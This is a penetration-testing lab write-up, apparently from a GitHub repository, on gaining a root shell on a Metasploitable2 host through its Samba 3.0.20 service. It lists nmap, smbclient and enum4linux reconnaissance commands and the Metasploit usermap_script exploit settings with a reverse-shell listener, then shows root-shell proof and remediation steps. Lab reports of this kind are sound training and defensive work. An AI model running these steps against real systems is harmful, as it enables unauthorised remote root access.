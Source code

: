 # Metasploitable2 – Samba 3.0.20 (Port 445)

**Date:** 2025-09-05  
**Target:** 192.168.56.101  
**Attacker:** Kali Linux 2025.2 (192.168.56.102)  

---

## Recon

Nmap identified port 445 open running Samba 3.0.20:

```bash
nmap -sV -p 445 192.168.56.101 -oN nmap_samba_results.txt

Results:

445/tcp open netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)

Enumerating shares with smbclient:
smbclient -L //192.168.56.101/ -N
smbclient //192.168.56.101/tmp -N

Enum4linux enumeration:
enum4linux -a 192.168.56.101 | tee smb_enum_results.txt
Discovered users/groups such as backup, daemon, games, etc.

Exploitation (Metasploit)
use exploit/multi/samba/usermap_script
set RHOST 192.168.56.101
set LHOST 192.168.56.102
exploit

## Proof of Compromise
- Successful exploitation gave a root shell:
  - `whoami` → root  
  - `uname -a` → Linux metasploitable 2.6.24-16-server  

- Screenshot proof:  
  ![Root shell Samba](./images/proof.samba.png)


## Artifacts
- [Nmap results](./nmap_samba_results.txt)
- [SMB enumeration](./smb_enum_results.txt)
- Screenshot: ![Root shell](./images/root-shell-samba.png)

Remediation
Upgrade Samba to a secure version (>= 3.0.25).
Disable anonymous SMB access where not required.
Restrict SMB to trusted networks only.

---


